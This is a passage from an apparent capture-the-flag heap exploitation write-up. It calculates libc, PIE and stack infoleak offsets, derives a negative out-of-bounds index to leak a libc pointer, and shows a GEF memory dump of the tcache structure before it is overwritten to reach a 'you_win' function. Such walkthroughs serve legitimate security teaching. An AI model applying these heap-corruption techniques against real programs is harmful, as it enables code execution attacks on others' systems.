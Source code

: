 So we see that the libc ptr at the freed chunk is `0x7febc602cd00` (which we see, it's offset to the libc base is `0x7febc602cd00 - 0x00007febc5e00000 = 0x22cd00`). Using the secret functionality, we get the PIE infoleak `0x55911df25810` (offset from PIE base is `0x1810`), and the stack infoleak `0x7ffed884fa70`. We also see that the offset from the PIE base to the `you_win` function is `0x12db`. The offset to `chunks` is `0x4040` from the PIE base, which we got via the same way we got the offset to `you_win`.

Also, the address we use as a base is `0x55911e1ccbd0` (beginning of the chunk). The `0x7febc602cd00` value is at `0x55911e1cc6c0`. Thus the index we need to view, from that chunk, to get the libc infoleak, is `((0x55911e1cc6c0 - 0x55911e1ccbd0) / 8) = 162`, so just use the index -162. With this, we have all of the infoleaks we need. Let's overwrite the tcache struct:

```
gef➤  x/200g 0x000055911e1cb000
0x55911e1cb000:    0x0    0x291
0x55911e1cb010:    0x0    0x0
0x55911e1cb020:    0x1    0x0
0x55911e1cb030:    0x0    0x0
0x55911e1cb040:    0x0    0x0
0x55911e1cb050:    0x0    0x0
0x55911e1cb060:    0x0    0x0
0x55911e1cb070:    0x0    0x0
0x55911e1cb080:    0x0    0x0
0x55911e1cb090:    0x0    0x0
0x55911e1cb0a0:    0x0    0x0
0x55911e1cb0b0:    0x0    0x0
0x55911e1cb0c0:    0x0    0x0
0x55911e1cb0d0:    0x55911df28040    0x0
0x55911e1cb0e0:    0x0    0x0
0x55911e1cb0f0:    0x0    0x0
0x55911e1cb100:    0x0    0x0
0x55911e1cb110:    0x0    0x0
0x55911e1cb120:    0x0    0x0
0x55911e1cb130:    0x0    0x0
0x55911e1cb140:    0x0    0x0
0x55911e1cb150:    0x0    0x0
0x55911e1cb160:    0x0    0x0
0x55911e1cb170:    0x0    0x0
0x55911e1cb180:    0x0    0x0
0x55911e1cb190:    0x0    0x0
0x55911e1cb1a0:    0x0    0x0
0x55911e1cb1b0:    0x0    0x0
0x55911e1cb1c0:    0x0    0x0
0x55911e1cb1d0:    0x0    0x0
0x55911e1cb1e0:    0x0    0x0
0x55911e1cb1f0:    0x0    0x0
0x55911e1cb200:    0x0    0x0
0x55911e1cb210:    0x0    0x0
0x55911e1cb220:    0x0    0x0
0x55911e1cb230:    0x0    0x0
0x55911e1cb240:    0x0    0x0
0x55911e1cb250:    0x0    0x0
0x55911e1cb260:    0x0    0x0
0x55911e1cb270:    0x0    0x0
0x55911e1cb280:    0x0    0x0
0x55911e1cb290:    0x0    0x411
0x55911e1cb2a0:    0x6520657361656c50    0x6e656d207265746e
0x55911e1cb2b0:    0x6563696f68632075    0x292e320a6b6e0a3a
0x55911e1cb2c0:    0x6843207765695620    0x20292e330a6b6e75
0x55911e1cb2d0:    0x7568432074696445    0x4620292e340a6b6e
0x55911e1cb2e0:    0x6e75684320656572    0xa6b
0x55911e1cb2f0:    0x0    0x0
0x55911e1cb300:    0x0    0x0
0x55911e1cb310:    0x0    0x0
0x55911e1cb320:    0x0    0x0
```